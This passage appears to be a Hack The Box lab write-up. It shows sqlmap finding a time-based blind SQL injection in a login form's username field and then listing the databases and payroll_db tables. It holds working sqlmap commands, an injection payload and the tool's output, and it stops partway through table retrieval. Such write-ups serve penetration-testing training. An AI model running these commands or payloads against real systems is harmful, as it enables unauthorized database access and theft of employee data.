 Using the request file, I tried naive `sqlmap` command.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --dbs
       __H__                                
 ___ ___[(]_____ ___ ___  {1.8.7#stable}
|_ -| . [)]     | .'| . |       
|___|_  [)]_|_|_|__,|  _|    
      |_|V...       |_|   https://sqlmap.org   

<SNIP>

sqlmap identified the following injection point(s) with a total of 212 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 8151 FROM (SELECT(SLEEP(5)))WJeT) AND 'UVZo'='UVZo&password=test
---
[13:50:08] [INFO] the back-end DBMS is MySQL

<SNIP>
```

This scan is using "Time-based SQL Injection" which takes too long.
Let's specify the increase thread.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --threads 10 --dbs 

<SNIP>

[14:04:38] [INFO] resumed: 2
[14:04:38] [INFO] resumed: information_schema
[14:04:38] [INFO] resumed: payroll_db
available databases [2]:
[*] information_schema
[*] payroll_db
```

There are two DBs including default(information_schema). We need to investigate on `payroll_db`.
Let's try to fetch tables this time.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --threads 10 -D payroll_db --tables

<SNIP>

[14:07:30] [INFO] adjusting time delay to 2 seconds due to good response times
position
[14:08:36] [INFO] retrieved: employee
[14:09:39] [INFO] retrieved: depart
[14:10:33] [ERROR] invalid character detected. retrying..
[14:10:33] [WARNING] increasing time delay to 3 seconds
ment
[14:11:17] [INFO] retrieved: payroll_items
[14:13:52] [INFO] retrieved: attendance
[14:15:29] [INFO] retrieved: employee_deductions
[14:19:02] [INFO] retrieved: employee_allowances
[14:21:14] [INFO] retrieved: users
[14:22:06] [INFO] retrieved: deductions
[14:23:51] [INFO] retrieved: 
[14:24:02] [ERROR] invalid character detected. retrying..
```